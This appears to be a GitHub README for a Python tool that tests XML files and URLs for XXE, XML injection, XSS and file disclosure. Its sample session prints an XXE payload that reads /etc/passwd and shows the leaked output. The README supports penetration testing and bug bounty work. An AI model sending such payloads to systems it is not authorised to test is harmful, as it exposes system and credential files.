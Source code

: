 # XML-Testing Automation
An interactive and flexible tool for penetration testing and bug bounty tasks focused on XML vulnerabilities, including XXE, XML Injection, XSS, and File Disclosure. The tool is user-friendly, with options to use default payloads or custom payloads provided via a file. Test files or URLs with real-time results and clear proofs of concept (PoC) for vulnerabilities.

# Features
XML Testing: Test for vulnerabilities such as:
XML External Entity (XXE) injection.
XML injection and malformed structures.
XSS and script injection.
Path traversal and file disclosure.
Payload Selection:
Use default payloads for quick testing.
Provide a custom payload file for advanced use cases.
Interactive Menu:
Test XML files or target URLs.
Easily navigate back to the main menu for repeated testing.
Real-time Results:
Displays well-formedness, vulnerability status, and PoC (if applicable).
Color-coded outputs for easy interpretation using colorama.
# Installation
Clone the repository:
git clone https://github.com/yourusername/xml-pentest-tool.git
cd xml-pentest-tool
Install dependencies: Use the included requirements.txt file to install all necessary libraries.
pip install -r requirements.txt
Run the tool:
python xml_pentest_tool.py

# Example 
Welcome to XML Penetration Testing Tool! 🚀

Choose input type:
1. Load XML from a file
2. Test a URL endpoint
3. Exit the tool
Enter your choice (1, 2, or 3): 1
Enter the full path to the XML file: /path/to/test.xml

Choose payload type:
1. Use default payloads
2. Use custom payloads from a file
Enter your choice (1 or 2): 1

🔍 Starting Penetration Testing for Target: File - /path/to/test.xml

[Payload 1] Testing with payload:
<root><data>&xxe;</data></root>

  ✅ Well-formedness Check: Passed
  ❌ XXE Test Result: Vulnerable!
--------------------------------------------------

[Payload 2] Testing with payload:
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root>&xxe;</root>

  Well-formedness Check: Passed
  ❌ XXE Test Result: Vulnerable!
  Server Response: 200
  Response Body: root:x:0:0:root:/root:/bin/bash...
--------------------------------------------------

✅ Testing Completed!



![image](https://github.com/user-attachments/assets/97d39180-25e9-4c9e-8394-80df6149b8dc)
